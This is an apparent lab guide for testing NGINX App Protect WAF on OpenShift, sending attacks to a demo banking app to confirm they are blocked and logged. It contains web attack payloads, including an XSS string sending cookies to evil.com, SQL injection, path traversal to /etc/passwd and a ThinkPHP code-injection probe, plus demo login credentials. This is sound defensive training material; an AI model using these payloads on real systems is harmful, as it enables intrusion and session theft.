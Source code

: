 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,texinfo,subs="attributes"]
----
<html>
  <head><title>Request Rejected</title></head>
  <body>
    The requested URL was rejected. Please consult with your administrator.<br><br>
    Your support ID is: 2246109708976899297<br><br>
    <a href='javascript:history.back();'>[Go Back]</a>
  </body>
</html>
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]

Feel free to execute any attacks you would like and observe the
results.

Congratulations on securing your application!

*Here are some optional attacks you can try (Optional)*

[NOTE]
.Note
====
Execute the attack by appending the following string:
`?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+` to the end of
the application URL.
====

* SQL Injection - 
  `GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`
* Remote File Include - 
  `GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch`
* Command Execution - 
  `GET /?hfsagrs=%2Fproc%2Fself%2Fenviron`
* HTTP Parser Attack - 
  `GET /?XDEBUG_SESSION_START=phpstorm`
* Predictable Resource Location Path Traversal - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`
* Cross-Site Scripting - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+`
* Information Leakage - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw`
* HTTP Parser Attack Forceful Browsing - 
  `GET /dana-na/auth/url_default/welcome.cgi`
* Non-browser Client, Abuse of Functionality, Server Side Code
  Injection, HTTP Parser Attack - 
  `GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`
* Cross-Site Scripting - 
  `GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n`

*and many more from the bash script below (Just for your information)*

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----

=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

Events are logged in the local syslog pod.
+
In the terminal window, copy the below text and press enter.

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----
+
Next, let's create an attack and then examine the logs.
+

Create this bash script.  We'll use it to create the attack and then display the log.

[source,sh,role=execute]
----
cat << 'EOF' > check_waf.sh
cat << 'EOF' > check_waf.sh
#!/bin/bash

echo "Sending a malicious request to trigger App Protect..."
response=$(curl -sk "http://$nginx_ingress?item='><script>document.location='http://evil.com/steal'+document.cookie</script>")

echo "Full WAF response:"
echo "$response"

support_id=$(echo "$response" | grep -oP 'support ID is: \K[0-9]+')
echo "Captured Support ID: $support_id"

syslog_pod=$(oc get pods --no-headers | grep '^syslog-' | cut -d' ' -f1)
echo "Querying syslog pod $syslog_pod for WAF log entry..."

oc exec -it pod/$syslog_pod -- cat /var/log/messages | \
  grep "$support_id" | \
  sed -n 's/.*json_log="\({.*}\)".*/\1/p' | \
  sed 's/""/"/g' | jq .
EOF
----

Make the script executable and then run it.

[source,sh,role=execute]
----
chmod +x check_waf.sh && ./check_waf.sh
----

After running the check_waf.sh script, look at the parsed JSON and verify the following:

- `"id"`: This should match the support ID you received in the curl response.
- `"requestStatus": "blocked"`: Confirms the request was blocked by App Protect.
- `"attackType"`: Look for entries like `"Cross Site Scripting (XSS)"`, showing the attack was correctly classified.
- `"violation.name"`: Confirm detection of signatures such as `"VIOL_ATTACK_SIGNATURE"` or `"VIOL_PARAMETER_VALUE_METACHAR"`.
- `"signature.name"`: Example: `"XSS script tag (Parameter)"` shows the specific rule triggered.
- `"enforcementState.isBlocked": true`: Confirms blocking action was enforced.
- `"observedEntity.value"`: This may show a base64-encoded version of the payload that triggered the violation.


Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in OpenShift and how to use the NGINX App
Protect WAF to protect your applications from attacks.
